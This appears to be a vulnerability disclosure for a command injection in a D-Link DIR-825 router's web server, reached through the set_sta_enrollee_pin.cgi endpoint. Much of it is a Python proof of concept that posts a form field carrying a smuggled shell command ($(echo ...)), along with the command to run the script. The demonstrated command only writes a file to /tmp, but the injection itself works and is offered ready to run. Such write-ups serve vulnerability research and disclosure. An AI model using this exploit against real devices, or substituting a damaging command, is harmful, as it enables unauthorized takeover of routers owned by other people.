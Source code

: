 ### Description 
```
there is a command injection vulnerability that can cause any system command to be executed after user authentication 

Vulnerability location: file:  /sbin/httpd

The attacker calls this function by sending a post packet to the http://ip/set_sta_enrollee_pin.cgi
```

### Firmware version
```
version: Rev.B 2.10
download link: ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-825/REVB/
```

### Post package
```
   5 ip = "http://192.168.0.1/"
   6
   7 url = ip + 'set_sta_enrollee_pin.cgi'
   8
   9 command = "a'$(echo 4 > /tmp/hello4)'b"
  10
  11 payload = {
  12     "wps_sta_enrollee_pin": command,
  13     "html_response_page": "do_wps.asp",
  14     "html_response_return_page": "do_wps.asp",
  15 }
  16
  17 r = requests.post(url, data=payload)
```

### Exploit exp
`python3 enrollee-pin-comm.py`

### Example output
![Example output](./img/enrollee-pin-command-inject.jpg)
